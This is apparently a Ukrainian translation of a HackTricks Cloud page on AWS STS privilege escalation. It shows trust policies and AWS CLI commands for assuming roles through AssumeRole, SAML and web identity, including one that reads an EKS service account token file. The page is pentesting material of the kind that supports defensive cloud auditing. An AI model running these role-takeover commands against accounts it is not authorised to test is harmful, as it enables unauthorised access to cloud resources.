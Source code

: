 # AWS - Підвищення привілеїв STS

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити вашу **компанію в рекламі HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) **і** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **репозиторіїв на GitHub**.

</details>

## STS

### `sts:AssumeRole`

Кожна роль створюється з **політикою довіри ролі**, яка вказує **хто може припускати створену роль**. Якщо роль з **того ж облікового запису** вказує, що обліковий запис може її припускати, це означає, що обліковий запис зможе отримати доступ до ролі (і, можливо, **підвищити привілеї**).

Наприклад, наступна політика довіри ролі показує, що будь-хто може її припускати, тому **будь-який користувач зможе підвищити привілеї** до дозволів, пов'язаних з цією роллю.
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
Ви можете видаавати себе за роль, запустивши:
```bash
aws sts assume-role --role-arn $ROLE_ARN --role-session-name sessionname
```
**Потенційний вплив:** Підвищення привілеїв до ролі.

{% hint style="danger" %}
Зверніть увагу, що у цьому випадку дозвіл `sts:AssumeRole` повинен бути **вказаний у ролі для зловживання**, а не в політиці, що належить зловмиснику.\
З одним винятком, для того щоб **припустити роль з іншого облікового запису**, обліковий запис зловмисника **також повинен** мати **`sts:AssumeRole`** над роллю.
{% endhint %}

### `sts:AssumeRoleWithSAML`

Довіркова політика з цією роллю надає **користувачам, які були автентифіковані через SAML, доступ до імітації ролі.**

Приклад довіркової політики з цим дозволом:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "OneLogin",
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::290594632123:saml-provider/OneLogin"
},
"Action": "sts:AssumeRoleWithSAML",
"Condition": {
"StringEquals": {
"SAML:aud": "https://signin.aws.amazon.com/saml"
}
}
}
]
}
```
Для генерації облікових даних для підроблення ролі загалом ви можете використовувати щось на зразок:
```bash
aws sts  assume-role-with-saml --role-arn <value> --principal-arn <value>
```
Але **постачальники** можуть мати свої **власні інструменти**, щоб зробити це простіше, наприклад [onelogin-aws-assume-role](https://github.com/onelogin/onelogin-python-aws-assume-role):
```bash
onelogin-aws-assume-role --onelogin-subdomain mettle --onelogin-app-id 283740 --aws-region eu-west-1 -z 3600
```
{% endcode %}

**Потенційний вплив:** Підвищення привілеїв до ролі.

### `sts:AssumeRoleWithWebIdentity`

Ця дозвіл надає можливість отримати набір тимчасових облікових даних для **користувачів, які були автентифіковані в мобільному, веб-додатку, EKS...** з постачальником ідентичності веб-сервісу. [Дізнайтеся більше тут.](https://docs.aws.amazon.com/STS/latest/APIReference/API\_AssumeRoleWithWebIdentity.html)

Наприклад, якщо **обліковий запис служби EKS** повинен мати можливість **імітувати роль IAM**, у нього буде токен у **`/var/run/secrets/eks.amazonaws.com/serviceaccount/token`** і може **припустити роль та отримати облікові дані**, виконавши щось на зразок:
```bash
aws sts assume-role-with-web-identity --role-arn arn:aws:iam::123456789098:role/<role_name> --role-session-name something --web-identity-token file:///var/run/secrets/eks.amazonaws.com/serviceaccount/token
# The role name can be found in the metadata of the configuration of the pod
```
{% endcode %}

### Зловживання федерацією

{% content-ref url="../aws-basic-information/aws-federation-abuse.md" %}
[aws-federation-abuse.md](../aws-basic-information/aws-federation-abuse.md)
{% endcontent-ref %}

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити свою **компанію рекламовану на HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) **і** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **репозиторіїв на GitHub**.

</details>
